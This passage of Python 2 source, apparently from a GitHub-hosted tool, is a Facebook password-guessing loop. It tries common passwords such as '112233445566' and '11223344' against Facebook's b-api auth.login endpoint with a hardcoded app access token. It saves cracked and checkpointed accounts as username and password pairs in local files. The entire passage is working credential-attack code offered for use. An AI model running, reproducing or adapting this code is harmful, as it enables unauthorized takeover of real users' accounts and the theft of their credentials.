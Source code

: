                 okb.close()
                oks.append(c + user + pass4)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass4 + '\n'
                cps = open('save/SUCCESSFULLL.txt', 'a')
                cps.write(k + c + user + '>>>' + pass4 + '\n')
                cps.close()
                cpb.append(c + user + pass4)
            else:
                pass5 = '112233445566'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass5 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass5 + '\n')
                okb.close()
                oks.append(c + user + pass5)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass5 + '\n'
                cps = open('save/SUCCESSFULLL.txt', 'a')
                cps.write(k + c + user + '>>>' + pass5 + '\n')
                cps.close()
                cpb.append(c + user + pass5)
            else:
                pass6 = '123456123456'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass6 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass6 + '\n')
                okb.close()
                oks.append(c + user + pass6)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass6 + '\n'
                cps = open('save/SUCCESSFULLL.txt', 'a')
                cps.write(k + c + user + '>>>' + pass6 + '\n')
                cps.close()
                cpb.append(c + user + pass6)
            else:
                pass7 = '11223344'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass7 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass7 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass7 + '\n')
                okb.close()
                oks.append(c + user + pass7)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass7 + '\n'
                cps = open('save/SUCCESSFULLL.txt', 'a')
                cps.write(k + c + user + '>>>' + pass7 + '\n')
                cps.close()
                cpb.append(c + user + pass7)
        except:
            pass